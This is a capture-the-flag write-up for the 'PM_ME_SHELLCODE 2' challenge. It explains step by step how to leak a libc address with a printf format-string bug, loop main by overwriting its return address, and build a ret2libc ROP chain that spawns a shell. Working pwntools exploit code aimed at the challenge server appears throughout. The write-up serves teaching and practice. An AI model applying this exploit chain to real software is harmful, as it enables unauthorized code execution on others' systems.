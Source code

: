 # PM_ME_SHELLCODE 2
# Difficulty: Medium

Assumption: Know about printf exploits, basic stack overflows, basic ROP theory
Ping me on discord (`garrettgu10#8125`) if you don't know these~!

We are told that this binary runs with ASLR enabled. Our first step is then to 
leak the libc base address, since this changes every time the binary runs.

We can leak values off the stack using the printf exploit, since printf() is 
called directly with our buffer, so we can input "%llx %llx %llx %llx" to leak
four 64-bit values off the stack. 

How do we know which value is a libc address? We can first run this binary 
"normally" under gef, then run "info sharedlibrary" to find the location that
libc is loaded into, for instance `0x00007ffff7de7630` - `0x00007ffff7f5c08f`.

We can then inspect the four leaked 64-bit values off the stack to find one 
that falls within this range. In this instance, the third value happens to be 
`7ffff7fad980`; we can run `x 7ffff7fad980` to find that this corresponds to
the symbol `_IO_2_1_stdin_`. 

However, we run into a problem. The program exits as soon as we leak the 
addresses. We can avoid this by overwriting the return address of `main()` with
`main()` itself, allowing us to start the program again. We run `disass main` 
to inspect the disassembly of `main()`. We see that the program subtracts 
`0x30` or 48 bytes from rbp in order to allocate the buffer. This means that 
our return address is 48 + 8 = 56 bytes away from the start of the buffer. The
extra 8 bytes are for the pushed rbp at the start of the function. 

Let's try overwriting the the return address of `main()` with `main()`. In GEF,
we can pipe the output of a python script to the input of the program using
`<<<`. We get the start of `main()` to be at`0x0000000000401176` from the 
disassembly from earlier. We can try this out with the following command:  
```run <<< $(python3 -c "import os; from pwn import *; os.write(1, b' '*56 + p64(0x0000000000401176) + b'\n');")```

We see that "Enter something" prints out twice, meaning our return address 
overwrite worked! Yay!

Let's start writing our pwntools script. We open the provided binary and libc:  
```python
from pwn import *

libc = ELF("libc-2.23.so")
e = ELF("shellcode")
```

In our pwntools script, we can combine the return address overwrite with the
stack leak:
```python
conn = remote("ctf.isss.io", 9009)
conn.recvline() # to "swallow" the "Enter something: " prompt
conn.send(b'%3$llx ' + b' '*(56 - 7) + p64(e.symbols['main']) + b'\n')
```
Note that `%3$llx` is just C-format-string for "give me the third item from the
stack as a 64-bit hex value."

We can then grab the leaked libc address as such, since it is followed by a 
space:
```python
io21 = int(conn.recvline().split(b' ')[0], 16)
```

We can get the libc base address by subtracting the offset of `_IO_2_1_stdin_`
relative to the base address:
```python
libcoff = io21 - libc.symbols['_IO_2_1_stdin_']
```

Finally, we want to perform a ret2libc by simulating a call to 
`system("/bin/sh")`. First we find where the string `/bin/sh` occurs within
libc:
```python
binsh = next(libc.search(b'/bin/sh')) + libcoff
# we add libcoff to get the real location of the string in the context of
# the running process
```

Since the first argument of any function is located at `rdi`, we need `rdi` to
point to our string. So we need to finda ROP gadget to `pop rdi` off the stack:
```python
rop = ROP(e)
poprdi = rop.find_gadget(["pop rdi", "ret"])[0]
```

Putting everything together, we send the following payload:
```python
conn.send(b' '*56 + p64(poprdi) + p64(binsh) + p64(libcoff + libc.symbols['system']) + b'\n')
```

It's a bit hard to see what's going on in that last command, but once main() 
returns, it will return instead to the value we placed after the 56 bytes of
filler, which in this case is the location of the `pop rdi` gadget. Since a
`ret` was performed, that gadget location is now popped, so the stack pointer
now points to `p64(binsh)`, which is a pointer to where the string `/bin/sh`
occurs in the process's address space. The `pop rdi` gadget will then pop the
address into `rdi`, and `ret`. The `ret` will pop a return address off the 
stack which in this case happens to be `p64(libcoff + libc.symbols['system'])`,
or the entry point of `system()`. Since we popped `rdi`, `system()` will see 
that the value of `rdi` points to `"/bin/sh"`, so we get a shell!

The full solution code is available here at `solution.py`. Please ping me on 
Discord (`garrettgu10#8125`)if you have any issues understanding the exploit ^^